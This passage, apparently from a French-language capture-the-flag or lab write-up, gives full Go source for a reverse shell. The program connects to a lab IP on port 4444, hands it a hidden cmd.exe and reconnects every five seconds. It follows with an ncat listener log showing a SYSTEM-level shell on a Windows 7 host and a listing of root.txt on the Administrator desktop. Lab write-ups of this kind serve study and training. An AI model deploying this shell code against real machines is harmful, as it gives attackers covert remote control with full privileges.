 Déçu par ce manque d'ouverture d'esprit, j'ai écrit un autre code Go qui donne un reverse shell :

```go
package main

import (
        "net"
        "os/exec"
        "syscall" // Pour HideWindow (masquer la fenêtre de console)
        "time"    // Pour la gestion des reconnexions
)

func main() {
        attackerIP := "192.168.56.1"
        attackerPort := "4444"

        shellPath := "cmd.exe" 

        for {
                conn, err := net.Dial("tcp", attackerIP+":"+attackerPort)
                if err != nil {
                        time.Sleep(5 * time.Second)
                        continue
                }

                cmd := exec.Command(shellPath)
                cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
                cmd.Stdin = conn
                cmd.Stdout = conn
                cmd.Stderr = conn

                _ = cmd.Run() 

                conn.Close()
                time.Sleep(5 * time.Second)
        }
}
```

Je le fais lancer via PEService comme précédemment :

```console
$ ncat -l -p 4444 -v
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.56.111:49160.
Microsoft Windows [S�r�m 6.1.7601]
Telif Hakk� (c) 2009 Microsoft Corporation. T�m haklar� sakl�d�r.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd c:/users/administrator/desktop
c:\Users\Administrator\Desktop>dir
 C s�r�c�s�ndeki birimin etiketi yok.
 Birim Seri Numaras�: D4DC-8644

 c:\Users\Administrator\Desktop dizini

05.10.2024  18:23    <DIR>          .
05.10.2024  18:23    <DIR>          ..
06.10.2024  17:26                25 root.txt
               1 Dosya               25 bayt
               2 Dizin   22.133.755.904 bayt bo�
```